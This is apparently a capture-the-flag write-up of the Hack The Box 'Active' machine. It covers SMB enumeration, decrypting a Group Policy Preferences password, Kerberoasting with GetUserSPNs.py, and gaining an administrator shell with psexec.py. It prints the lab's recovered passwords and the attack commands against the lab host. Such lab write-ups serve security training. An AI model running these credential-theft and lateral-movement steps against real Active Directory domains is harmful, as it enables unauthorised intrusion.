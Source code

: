 ```yaml
---
title: "Hack The Box - Active"
tags: [windows,medium,kerberoasting , smb , psexec]
categories: HackTheBox-Active-Directory
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled.png)

### NMAP

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%201.png)

### *Enumerating*

⇒ Enumerating the smb shares :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%202.png)

⇒ In replication share we found Groups.xml which has an password which we can decrypt using gpp-decrypt ( group policy password ) :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%203.png)

**svc_tgs : GPPstillStandingStrong2k18**

### *Kerberoasting*

⇒ So running GetUserSPNs.py we see that there's an SPN set for Administrator user. We requested the tgs and cracked it locally using john :

`python3 GetUserSPNs.py active.htb/'svc_tgs:GPPstillStandingStrong2k18' -dc-ip 10.10.10.100 -request`

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%204.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%205.png)

**Administrator : Ticketmaster1968**

⇒ Using psexec to get a shell with administrator credentials :

**psexec.py administrator@10.10.10.100**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%206.png)

